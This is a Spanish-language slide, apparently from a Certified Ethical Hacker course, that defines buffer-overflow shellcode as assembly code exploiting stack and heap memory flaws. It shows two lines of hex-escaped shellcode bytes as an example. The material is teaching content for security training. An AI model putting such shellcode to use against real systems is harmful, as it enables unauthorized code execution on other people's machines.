

# Shellcode
Buffer overflow shellcodes, escritos en lenguaje ensamblador, explotan vulnerabilidades en la pila y en la administración de la memoria heap.
Ejemplo:
"\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
"\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"

C|EH  Julio Iglesias Pérez